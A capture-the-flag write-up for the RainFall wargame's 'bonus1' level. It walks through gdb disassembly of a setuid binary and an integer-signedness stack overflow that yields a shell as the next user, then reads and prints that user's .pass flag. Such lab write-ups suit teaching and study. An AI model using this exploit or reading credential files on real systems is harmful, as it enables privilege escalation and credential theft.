

# Bonus1

## Walkthrough

We list the files in the current home directory.

```bash
bonus1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
bonus1@RainFall:~$ file bonus1 
bonus1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x5af8fd13428afc6d05de1abfa9d7e7621df174c7, not stripped
```

The file is owned by **bonus2** and has the setuid bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482d4  _init
0x08048320  memcpy
0x08048320  memcpy@plt
0x08048330  __gmon_start__
0x08048330  __gmon_start__@plt
0x08048340  __libc_start_main
0x08048340  __libc_start_main@plt
0x08048350  execl
0x08048350  execl@plt
0x08048360  atoi
0x08048360  atoi@plt
0x08048370  _start
0x080483a0  __do_global_dtors_aux
0x08048400  frame_dummy
0x08048424  main
0x080484b0  __libc_csu_init
0x08048520  __libc_csu_fini
0x08048522  __i686.get_pc_thunk.bx
0x08048530  __do_global_ctors_aux
0x0804855c  _fini
```

There is only 1 user-defined functions: `main()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:    add    eax,0x4
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    eax,0x1
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:    add    eax,0x8
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:    mov    edx,eax
   0x08048464 <+64>:    lea    eax,[esp+0x14]
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    eax,0x0
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

The `main()` function:
- calls `atoi()` to convert `argv[1]` into an `int`
- compares the result and exits if it is greater than 9
- calls `memcpy()` to copy `argv[2]` to the stack for a size of `result of atoi() * 4`
- compares the value located where the result of `atoi()` was stored and exits if it is not equal to `0x574f4c46`
- calls `execl()` to execute `/bin/sh`

We draw a diagram of the `main()` stack frame.



To overwrite the value of the result of `atoi()`, we have to pass a string of 40 bytes followed by the value `0x574f4c46`.  
But we are facing a problem: we can only pass a value of 9 or less as `argv[1]`. As seen above, this number is then gonna be multiplied by 4 and be used as the size for the call to `memcpy()`. It means we can only write up to 36 characters, but we must write 44.

If we pay attention to the functions signatures of `atoi()` and `memcpy()`, we notice that one accepts an **int**, and the other an **unsigned int**.  
We know that if a negative **int** is converted to an **unsigned int** (on 32 bits), it will be represented as `2 ** 32 - negative_value`.

We set a breakpoint before `memcpy()`, run the executable with different negative numbers, and check the third value from the top of the stack to compare it with the one we expect: 44.

```
(gdb) b *0x08048473
Breakpoint 1 at 0x8048473
(gdb) r -2147483631 AAAA
Starting program: /home/user/bonus1/bonus1 -2147483631 AAAA

Breakpoint 1, 0x08048473 in main ()
(gdb) i r esp
esp            0xbffff5b0       0xbffff5b0
(gdb) x/4wx 0xbffff5b0
0xbffff5b0:     0xbffff5c4      0xbffff800      0x00000044      0x080482fd
```

After some attempts, we find that we have to pass the string `-2147483631` in `argv[1]` to copy 44 bytes during the call to `memcpy()`.

We then pass a string of 40 placeholder characters followed by the value `0x574f4c46` as `argv[2]`.

```bash
bonus1@RainFall:~$ ./bonus1 $(python -c "print('-2147483631')") $(python -c "print('A' * 40 + '\x46\x4c\x4f\x57')")
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## Resources

- [What happens if I assign a negative value to an unsigned variable?](https://stackoverflow.com/questions/2711522/what-happens-if-i-assign-a-negative-value-to-an-unsigned-variable)
